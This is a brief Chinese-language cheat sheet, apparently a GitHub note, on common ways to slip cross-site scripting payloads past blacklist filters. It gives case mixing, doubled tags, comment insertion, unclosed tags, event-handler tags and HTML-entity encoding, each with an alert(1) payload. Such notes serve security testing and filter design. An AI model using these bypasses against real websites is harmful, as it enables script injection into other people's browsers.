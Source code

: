 ![image](images/7092255731F446EE8D519114FD4B7FDCclipboard.png)

# xss常见绕过手法

### 大小写绕过

HTML对标签大小写不敏感，可以利用大小写混用绕过
例如：<script>改为<ScRiPt>

### 双写绕过

有些情况的规则会将黑名单标签替换为空，可以利用这一点构造标签

例如：<script>改为<scr<script>ipt>

同理某些注释符在规则中也会替换为空，这时候可以利用它构造payload

例如：<script>改为<scr<!---test--->ipt>

### 开口标签

在某些特殊环境，由于html代码补全机制，可以故意不闭合标签绕过黑名单检测
例如：<script>改为<script


### 其他非黑名单标签和事件

```
<img src=1 onerror=alert(1)>
```

```
 其他事件标签,onclick等
```

 
```
"><a href="javascript:alert(1)">asd</a>
```

### 编码

```
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29; 

为javascript:alert(1)的 html实体编码，
```

```
"><a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">asd</a>
```